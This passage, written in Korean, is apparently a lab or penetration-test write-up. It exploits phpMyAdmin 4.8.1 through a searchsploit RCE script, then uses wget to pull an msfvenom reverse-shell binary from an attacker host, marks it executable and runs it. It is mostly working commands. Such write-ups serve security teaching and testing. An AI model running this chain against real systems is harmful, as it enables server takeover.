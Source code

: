  - 로그인 성공 후 페이지 확인 결과 phpmyadmin 버전 확인

    ![alt text](/image/image-3.png)

### 취약점 진단
 phpmyadmin 4.8.1버전 취약점 확인 결과 RCE 취약점 발견
    ```sh
    searchsploit phpmyadmin 4.8.1

    ---------------------------------------------------------------------------------------
    Exploit Title                                                  |  Path
    ---------------------------------------------------------------------------------------
    phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)     | php/webapps/44924.txt
    phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)     | php/webapps/44928.txt
    phpMyAdmin 4.8.1 - Remote Code Execution (RCE)                  | php/webapps/50457.py
    ---------------------------------------------------------------------------------------
    Shellcodes: No Results
    ```

### 호스트 초기 침투
 - RCE 취약점을 통한 공격 테스트 진행 및 개념증명 성공
    ```sh
    python3 50457.py 172.31.249.155 80 /phpmyadmin root password whoami

    www-data
    ```
 - 개념증명이 성공 했으므로 리버스 쉘 연결을 위한 리버스 쉘 페이로드 생성 및 nc를 사용하여 리버스 쉘 연결 포트 오픈
    ```bash
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.0.140 LPORT=443 -f elf -o revshell.elf

    nc -lvnp 443
    ```

 - 임의의 포트를 오픈한 뒤 RCE 취약점을 사용하여 리버스 쉘 전송 및 실행
    ```sh
    python3 -m http.server 3333

    python3 50457.py 172.31.249.155 80 /phpmyadmin root password "wget http:10.8.0.140:3333/revshell.elf -O /tmp/reverse"
    python3 50457.py 172.31.249.155 80 /phpmyadmin root password "chmod +x /tmp/reverse"
    python3 50457.py 172.31.249.155 80 /phpmyadmin root password "/tmp/reverse"
    ```
